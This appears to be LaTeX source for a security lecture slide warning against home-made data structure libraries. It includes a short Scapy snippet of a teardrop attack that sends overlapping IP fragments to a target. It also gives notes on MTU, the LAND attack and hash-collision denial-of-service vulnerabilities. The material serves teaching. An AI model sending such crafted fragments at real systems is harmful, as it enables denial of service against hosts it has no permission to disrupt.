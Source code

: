 \documentclass[Screen16to9,17pt]{foils}
\begin{document}
\vskip 1cm
\centerline{Dont write your data structure libraries yourself}


\begin{verbatim}
#! /usr/bin/env python3
if attack == '0':
  print "Using attack 0"
  size=36    offset=3   load1="\x00"*size
  i=IP()   i.dst=target   i.flags="MF"   i.proto=17

  size=4     offset=18  load2="\x00"*size
  j=IP()   j.dst=target   j.flags=0   j.proto=17   j.frag=offset
  send(i/load1)
  send(j/load2)
\end{verbatim}

\begin{list2}
\item IP fragments, packets are split when crossing a link with lower MTU
\item If fragments created by an attacker are overlapping it creates a problem
\item Scapy example code by Sam Bowne, full code can be found at:\\
\url{https://samsclass.info/123/proj10/teardrop.htm}
\item what is a Maximum Transmission Unit (MTU)\\
See \url{https://en.wikipedia.org/wiki/Maximum_transmission_unit} for a description,\\ related/similar attack setting source=destination \url{https://en.wikipedia.org/wiki/LAND}
\end{list2}




\begin{list2}
\item Hashing algorithms
\item There have been multiple problems with hashing algorithms
\item Denial of Service and arbitrary code can be the result
\item Example vulns from popular programming languages, others have similar!\\
\url{https://www.cvedetails.com/vulnerability-list/vendor_id-74/product_id-128/cvssscoremin-7/cvssscoremax-7.99/PHP-PHP.html} search for hash \\
\url{https://github.com/bk2204/php-hash-dos} specific example in PHP 7.0.0~rc3-3\\
\url{https://www.ruby-lang.org/en/security/} Ruby has some
\item also when programmers selected wrong, or weak, hashing algorithms for passwords
\end{list2}
\end{document}
